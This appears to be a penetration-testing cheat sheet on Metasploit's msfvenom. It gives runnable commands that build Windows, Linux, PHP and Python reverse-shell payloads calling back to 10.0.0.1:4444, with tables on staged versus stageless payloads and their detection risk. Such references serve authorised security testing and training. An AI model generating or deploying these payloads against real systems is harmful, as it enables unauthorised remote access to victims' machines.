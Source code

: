 | **Payload** | **Description** |
| --- | --- |
| **`windows/x64/shell_reverse_tcp`** | Windows Reverse Shell (x64) |
| **`linux/x86/shell_reverse_tcp`** | Linux Reverse Shell (x86) |
| **`php/meterpreter_reverse_tcp`** | PHP Meterpreter Reverse Shell |
| **`java/jsp_shell_reverse_tcp`** | JSP Reverse Shell |

**Examples**

**Windows Reverse Shell (EXE)**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o rev_shell.exe
```

**Linux Reverse Shell (ELF)**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -o rev_shell.elf
```

**PHP Reverse Shell**

```bash
msfvenom -p php/reverse_php LHOST=10.0.0.1 LPORT=4444 -f raw -o rev_shell.php
```

**Python Reverse Shell**

```bash
msfvenom -p python/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f raw -o shell.py
```

**Staged vs. Stageless Payloads**

| **Type** | **Description** | **Example** |
| --- | --- | --- |
| **Staged** | Small initial payload, downloads the rest later. | **`windows/meterpreter/reverse_tcp`** |
| **Stageless** | Full payload in one file (bigger but more reliable). | **`windows/x64/shell_reverse_tcp`** |

**Naming Convention**

| **Type** | **Format** | **Example** |
| --- | --- | --- |
| **Staged** | **`<OS>/<arch>/meterpreter/<payload_type>`** | **`windows/x64/meterpreter/reverse_tcp`** |
| **Stageless** | **`<OS>/<arch>/shell_<payload_type>`** | **`windows/x64/shell_reverse_tcp`** |

**Key Differences**

| **Feature** | **Staged Payload** | **Stageless Payload** |
| --- | --- | --- |
| **Size** | Small (downloads the rest later) | Larger (all-in-one) |
| **Detection Risk** | Lower (initial payload is tiny) | Higher (full payload in one file) |
| **Reliability** | Depends on network connection | More reliable (no download needed) |
| **Metasploit Handler Required?** | ✅ Yes | ❌ No (but useful for advanced features |

